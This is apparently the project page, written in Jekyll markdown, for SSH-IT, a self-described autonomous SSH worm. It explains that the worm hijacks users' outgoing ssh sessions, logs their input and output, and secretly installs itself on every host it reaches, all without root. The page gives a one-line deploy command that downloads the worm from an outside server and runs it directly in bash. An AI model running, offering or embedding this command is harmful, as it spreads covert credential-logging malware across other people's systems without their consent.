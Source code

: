 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/ssh-it/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

## Contact

{% include contact-details.md %}

